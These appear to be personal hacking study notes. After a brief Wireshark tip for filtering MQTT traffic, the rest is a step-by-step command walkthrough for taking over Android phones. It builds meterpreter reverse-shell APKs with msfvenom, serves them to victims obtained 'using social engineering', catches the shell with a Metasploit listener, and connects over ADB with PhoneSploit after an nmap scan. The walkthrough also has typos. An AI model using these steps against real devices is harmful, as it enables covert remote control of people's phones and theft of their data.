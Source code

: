 # Detect IoT traffic
```
In wireshark
Open pcacp
Filter on mqtt
Analyse publish message in bottom left pane MQ telemetry
```

# Hacking Android Devices with msfvenom
```
Generate a malicious apk and open a multi/handler listener 
>msfvenom –p android/meterpreter/reverse_tcp LHOST=Localhost IP  LPORT=LocalPort R > android_shell.apk
>python3 http.server
Download and install to victim machine using social engineering
New tab
>msfconsole
>use exploit/multi/handler/
>set payload android/mmeterpreter/reverse_tcp
>options
>set LHOST {local IP}
>run
On Android machine navigate to attacker ip address:8000
Download malicious apk, install and open
```

# Hacking Android Devices with Phonesploit over ADB
```
Download and install the framework with following commands
>apt install adb
>git clone https://github.com/aerosol‐can/PhoneSploit
>cd PhoneSploit
>pip3 install colorama
Now fire up the framework  
>python3 phonesploit.py
Type in IP address of victim machine

On android, ensure USB debugging is on, and get IP address from WIfi Settings
On attacker
>sudo nmap -sS -p- -Pn {target IP}
```

# Hack an Android Device by Creating Binary Payloads using Parrot Security
```
>msfvenom -l payloads | grep android
>msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 LPORT=4444 –f raw –o Backdoor.apk
>cp backdoor.apky Downloads/backdoor.apk
>Cd Downloads
>python3 -m http.server 8000
New tab
>msfconsole
>use exploit/multi/handler
>set payload android/meterpreter/reverse_tcp
>set LHOST {attacker IP}
>options
>exploit
On target device go to {attackerIP}:8000 download install and run
On attacker, meterpreter should start
```